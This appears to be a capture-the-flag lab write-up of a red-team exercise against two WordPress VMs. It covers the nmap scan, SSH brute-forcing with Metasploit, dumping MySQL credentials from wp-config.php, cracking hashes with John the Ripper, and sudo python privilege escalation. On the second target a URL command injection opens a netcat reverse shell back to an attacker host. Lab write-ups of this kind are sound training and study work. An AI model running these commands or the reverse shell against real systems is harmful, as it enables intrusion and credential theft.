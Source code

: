 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sT -sV 192.168.1.110
![nmap scan target1](/images/target1namp)

$ nmap -sT -sV 192.168.1.115
![nmap scan target2](/images/target2namp)
```

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh OpenSSH 6.7p1 Debian
  - 80/tcp http Apache httpd 2.4.10
  - 111/tcp rpcbind
  - 139/tcp netbios-ssn Samba smbd
  - 445/tcp netbios-ssn Samba smbd
- Target 2
  - 22/tcp ssh OpenSSH 6.7p1 Debian
  - 80/tcp http Apache httpd 2.4.10
  - 111/tcp rpcbind
  - 139/tcp netbios-ssn Samba smbd
  - 445/tcp netbios-ssn Samba smbd

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - poor password regulation, high severity
  - non-secured configuration files, severely high severity
  - did not restrict all sudo privliedges to non-admin users, high severity
- Target 2
  - non-sanitized entry fields, url command execution, severely high severity
  - non-secured configuration files, severely high severity
  - poor, non-secure password for root, severely high severity

### Exploitation
-See "Final Project Notes" to observe chronological progression and screenshots

The Red Team was able to penetrate both `Target 1` and `Target 2`, and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
    - Observation of webpage source code
      - non-secured web pages with extractable data
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - Metasploit ssh login scan
    - Poor Password Regulation
      - msfconsole
        - use scanner/ssh/ssh_login
        - *change options to match target as 192.168.1.110 and user found from wpscan. Used rockyou.txt.
        - access ssh and navigate directories for flag 2, found in /var/www/flag2.txt
  - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - non-secured configuration files
      - extracted root credentials to mysql database in the wp-config.php file
      - logged onto mysql databse via:
        - mysql -u root -p wordpress; password: R@v3nSecurity
      - sql code used to navigate and extract wordpress credentials and password hashes:
        - show database;
        - use wordpress;
        - show tables;
        - describe wp_users;
        - select user_login, user_pass from wp_users;
        - select concat_ws(':', user_login, user_pass)
      - hashes were saved to a file and john the ripper was used to crack the passwords:
        - john wordpress.hashes --wordlist=~/Desktop/rockyou.txt
        - result: steven:pink84
      - website was not pulling the appropriate resources to host the page on the kali web browser
	- change /etc/hosts localhost to the vm of the target machine
      - logged into wordpress site as steven, navigated to posts to find flag3
  - `flag4.txt`: {715dea6c855b9fe3337544932f2941ce}
    -did not restrict all sudo privliedges to non-admin users
      - logged into target1 through ssh via steven:pink84
      - cat sudo priviledges (sudo -l)
      - python exploit discovered to escalate:
        - sudo python -c 'import pty;pty.spawn("/bin/bash")'
      - as root user, navigate to root directory to find flag4
- Target 2
  - change /etc/hosts change localhost to the vm of the target machine
  - `flag1.txt`: {a3c1f66d2b9651bd1a587db5b6ed3e21}
    - Navigated through hosted site pages
      - non-secured web pages with extractable data
  - `flag2.txt`: {6a8ed560f0b5358ecf844108048eb337}
    - Non-sanitized entry fields, url command execution 
      - provided exploit.sh was done to post code for a command execution at 192.168.1.115/backdoor.php?cmd=
      - command the establish reverse shell:
        - in URL: 192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 5500 -e /bin/bash
        - in terminal on kali: nc -nvlp 5500
        - cd ../ and cat flag2.txt
  - `flag3.txt`: {a0f568aa9de277887f37730d71520d9b}
    - non-secured configuration files
      - established a two way shell via:
        - python -c 'import pty;pty.spawn("/bin/bash")'
      - executed find -iname flag3* and found general directory for flag3, but could not read or extract
      - started work to access wordpress credentials for the website
      - extracted root credentials to mysql database in the wp-config.php file     
      - logged onto mysql databse via:
        - mysql -u root -p wordpress; password: R@v3nSecurity
      - sql code used to navigate and extract wordpress credentials and password hashes:
        - show database;
        - use wordpress;
        - show tables;
        - describe wp_users;
        - select user_login, user_pass from wp_users;
        - select concat_ws(':', user_login, user_pass)
      - hashes were saved to a file and john the ripper was used to crack the passwords:
        - john wordpress.hashes --wordlist=~/Desktop/rockyou.txt
        - result: steven:LOLLOL1
      - logged onto wordpress website and found post containing flag3.png
  - `flag4.txt`: {df2bc5e951d91581467bb9a2a8ff4425}
    - poor, non-secure password for root
      - in target2, two way shell, su root, password toor
      - navigate to cd ~, cat flag4.txt